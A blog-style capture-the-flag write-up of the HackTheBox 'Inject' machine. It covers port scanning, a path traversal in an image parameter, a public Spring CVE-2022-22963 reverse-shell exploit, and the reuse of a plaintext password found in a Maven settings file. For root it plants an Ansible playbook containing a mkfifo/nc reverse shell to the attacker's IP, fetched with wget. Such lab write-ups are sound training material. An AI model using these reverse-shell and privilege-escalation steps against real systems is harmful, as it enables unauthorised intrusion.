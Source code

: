 ```yaml
---
title: "HackTheBox - Inject"
date: 2023-05-28 12:00:00 +/-0530
categories: [HackTheBox]
tags: [CTF, HTB]     # TAG names should always be lowercase
---
```


![LOGO](../assets/img/Inject/Inject.png)

## Description

The box is available [here](https://app.hackthebox.com/machines/533). *Try it before read this article.*

- OS : Linux
- Release date : 11/03/23
- Difficulty : Easy
- Points : 20
- IP Adress : 10.10.11.204

You can add `Inject.htb` to the /etc/hosts file !

Now, we can start !

## Foothold

### Scanning and Enumeration

First, we use *Nmap* to discover the open ports :

```markdown
nmap -p- Inject.htb
```
We have the following result : 

```markdown
#Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-11 21:35 CEST
Nmap scan report for Inject.htb (10.10.11.204)
Host is up (0.030s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

#Nmap done: 1 IP address (1 host up) scanned in 21.14 seconds
```

There are two open ports,
**Ssh** doesn't look interesting. Go on website with Firefox.

The `/upload` is very interesting. We can test the service.

![Website_upload](../assets/img/Inject/Website_upload.png)

### Exploit the LFI

Start *BurpSuite* and we can see that `show_image?img=` is vulnerable.

![lfi_1](../assets/img/Inject/lfi_1.png)

After check important files, we have nothing. But here we can list each directory : 

````markdown
# Java List Directories
It looks like if you have a Path Traversal in Java and you ask for a directory instead of a file, a listing of 
the directory is returned.
This won't be happening in other languages (afaik).
````
Source : https://book.hacktricks.xyz/pentesting-web/file-inclusion#java-list-directories

Now, there is a file which is important, called `pom.xml` : 

![pom](../assets/img/Inject/pom.png)

We can see some services with the version. The `SpringBook` is interesting because the version is vulnerable.

Just Googling the version and we found some exploit. I will use this one, avalable [here](https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit).

Execute the script with the command : 

````markdown
python3 exploit.py -u http://inject.htb:8080/
````

And we have a shell !

*More about CVE-2022-22963 :*

- https://nvd.nist.gov/vuln/detail/CVE-2022-22963
- https://github.com/me2nuk/CVE-2022-22963

## User 

We are logged as *Frank*. There is another user called *Phil*. 

In the `/home/frank/` directory, listing all files and hidden dirs, and we have a `settings.xml` file with the following content :

````markdown
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
````

Nice ! This looks like a password for *Phil*. Try to connect with **Ssh** but it doesn't work.

Upgrade your shell with :

````markdown
python3 -c 'import pty; pty.spawn("/bin/bash")'
````

Try `su phil` and enter the password : `DocPhillovestoInject123`. It works !

Navigate into the files and we have the user flag !

![flag_user](../assets/img/Inject/flag_user.png)

## Privesc 

We need to be root to read the last flag.

### Find the vulnerability

Basic enumeration with automated tools can help us like [*Linpeas*](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

We will use [*pspy64*](https://github.com/DominicBreuker/pspy) to see the services which are running in background.

The script return :

````markdown
/usr/bin/python3 /usr/local/bin/ansible-parallel /opt/automation/tasks/playbook_1.yml

/bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
````

So there is a crontab which execute *Ansible* as root. In the `/opt/automation/tasks/` directory, we can write and create files because *Phil* is in the *Staff* group. 

### Exploit Ansible

This article will help us : https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/#privesc-with-automation-task

To privesc : 

- Create malicious file (Attacker)
- Start HTTP server (Attacker)
- Change name of original file
- Get the malicious file
- Wait

First, we need to craft a malicious file. The name will be `playbook_1.yml` :

````markdown
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
  - name: Evil
    ansible.builtin.shell: |
      /usr/bin/rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {YOUR_IP} 1234 >/tmp/f
    become: true
````

Now, start a HTTP server with **python3** :

````markdown
python3 -m http.server
````

On the target, change name of the original file and use **wget** to download your payload : 

````markdown
mv playbook_1.yml pl.txt
wget http://10.10.14.206:8000/playbook_1.yml
````

Finally, wait ~ 2 min and you will receive a connection. *Don't forget to start a listener !*

![root_exploit](../assets/img/Inject/root_exploit1.png)

### Root flag 

We are root ! We can read the root flag.

![root_flag](../assets/img/Inject/root.png)

## Conclusion

The box was fun and pretty straight forward. 

Thanks for reading !

https://www.hackthebox.com/achievement/machine/356950/533
